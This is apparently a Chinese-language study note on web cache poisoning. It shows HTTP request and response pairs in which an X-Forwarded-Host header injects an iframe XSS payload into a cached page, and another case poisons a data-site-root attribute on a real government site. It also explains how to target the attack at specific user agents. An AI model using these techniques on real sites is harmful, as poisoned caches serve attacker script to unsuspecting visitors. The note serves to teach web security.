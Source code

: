 unkeyed input
- `X-Host` header 被用來產生 script import path
- response headers `'Age'` 和 `'max-age'` 也被指定了
  -  這就指出我們應該多久重新送出 request，保持惡意 cache

選擇性 Poisoning
- HTTP header 可以為 cache 的內部工作提供其他節省時間的見解

### 以下知名網站為例，該網站正在使用 `Fastly`：

```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 … Firefox/60.0
X-Forwarded-Host: a"><iframe onload=alert(1)>

HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
</iframe> 
```

`Vary` header 告訴我們
- `User-Agent` 可能是 cache key 的一部分
  - 可以手動驗證
  
上面的 case 意味著，我們可以聲稱是使用 `Firefox 60`
- 所以漏洞只會提供給其他 Firefox 60 用戶
  - (當然也可以針對最流行的版本，針對特定 User)
- 所以，如果你知道目標的 user agent，就能制定針對他們的攻擊

DOM Poisoning  
- `XSS payload` 通常比 `unkeyed input` 更容易、有效

### 下一個 case
```
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
<body data-site-root="https://canary/">
```

我們控制了 `data-site-root` 屬性
- 但我們沒辦法成功 XSS，甚至不清楚該屬性的用途
- 為了找出答案，我在 `Burp` 中建了一個匹配和替換規則，為所有請求加一個 `X-Forwarded-Host: id.burpcollaborator.net` header

然後瀏覽該網站。當某些頁面載入時，Firefox 會向我的 server 發送一個 JS 產生的 request
